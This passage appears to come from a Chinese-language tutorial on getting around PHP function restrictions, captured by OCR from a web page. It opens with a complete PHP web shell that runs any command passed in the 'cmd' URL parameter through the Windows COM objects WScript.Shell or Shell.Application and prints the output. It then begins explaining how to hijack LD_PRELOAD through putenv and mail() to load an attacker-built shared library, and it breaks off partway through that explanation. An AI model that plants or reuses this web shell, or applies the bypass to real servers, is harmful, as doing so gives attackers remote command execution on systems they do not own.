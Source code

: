    <?php  
    $wsh = isset($_GET['wsh']) ? $_GET['wsh'] : 'wscript';  
    if($wsh == 'wscript') {  
        $command = $_GET['cmd'];  
        $wshit = new COM('WScript.shell') or die("Create Wscript.Shell Failed!");  
        $exec = $wshit->exec("cmd /c".$command);  
        $stdout = $exec->StdOut();  
        $stroutput = $stdout->ReadAll();  
        echo $stroutput;  
    }  
    elseif($wsh == 'application') {  
        $command = $_GET['cmd'];  
        $wshit = new COM("Shell.Application") or die("Shell.Application Failed!");  
        $exec = $wshit->ShellExecute("cmd","/c ".$command);  
    }   
    else {  
      echo(0);  
    }  
    ?>  
    

  

##

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102313.png)

## 利用Linux环境变量LD_PRELOAD  

### 初阶

    
    
    LD_PRELOAD是linux系统的一个环境变量，它可以影响程序的运行时的链接，它允许你定义在程序运行前优先加载的动态链接库。  
    

总的来说就是=`LD_PRELOAD`指定的动态链接库文件，会在其它文件调用之前先被调用，借此可以达到劫持的效果。

思路为:

  1. 创建一个.so文件,linux的动态链接库文件
  2. 使用putenv函数将`LD_PRELOAD`路径设置为我们自己创建的动态链接库文件
  3. 利用某个函数去触发该动态链接库

这里以`mail()`函数举例。在底层c语言中,`mail.c`中会调用`sendmail`，而sendmail_path使从ini文件中说明

    
    
    ; For Unix only.  You may supply arguments as well (default: "sendmail -t -i").   
    ;sendmail_path =  
    

默认为"sendmail -t -i"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102314.png)

但是sendmail并不是默认安装的,需要自己下载  
